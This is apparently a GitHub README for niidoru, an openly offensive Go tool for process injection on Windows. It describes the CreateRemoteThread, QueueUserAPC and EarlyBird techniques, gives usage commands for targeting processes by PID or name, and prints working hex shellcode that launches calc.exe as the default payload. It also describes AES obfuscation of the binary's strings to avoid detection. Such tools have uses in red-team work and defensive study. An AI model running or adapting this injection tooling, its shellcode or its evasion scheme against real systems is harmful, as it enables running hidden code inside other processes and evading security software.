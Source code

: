 # niidoru

Framework for Process Injection using Go.

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
- -m (Mandatory): Process injection method. Options:
    - *-m 1*: **Method 1** or **CreateRemoteThread** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle)
    - *-m 2*: **Method 2** or **QueueUserAPC** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle)
    - *-m 3*: **Method 3** or **EarlyBird** method (CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle)

- -p (Optional):  Process ID or PID. Example: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 

------------------------------

## Examples

Process injection using CreateRemoteThread method, targeting a notepad.exe process and a payload in hexadecimal format with "\x":  

```
go run . -m 1 -n notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 4272 and a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 4272 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new Notepad process and the default payload:

```
go run . -m 3 -n c:\windows\system32\notepad.exe 
```

Screenshot of the three examples:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/niidoru/Screenshot_1.png)


------------------------------

## Using the binary

Compile it with:

```
go build
```

Then you can use the same commands as earlier replacing "go run ." with "niidoru.exe":

``` 
niidoru.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```

------------------------------

## AES encryption

AES is used to obfuscate all the strings in the binary. To change the encrypted values and keys you can use [this gist](https://gist.github.com/ricardojoserf/986b8be42b356da530469bbd32fa88fa) (which is a small variation from [this gist](https://gist.githubusercontent.com/aziza-kasenova/3aea2160cbaebc5a4ba1b9219cba612e/raw/32b3801369ce669b2b1bf89ca84d24f23b487579/AES256.go) but fixing a small problem with the padding). 

If you are not interested in this and just want to see the encryption methods with more representative names, you can check the [no-encryption branch](https://github.com/ricardojoserf/niidoru/tree/no_encryption).
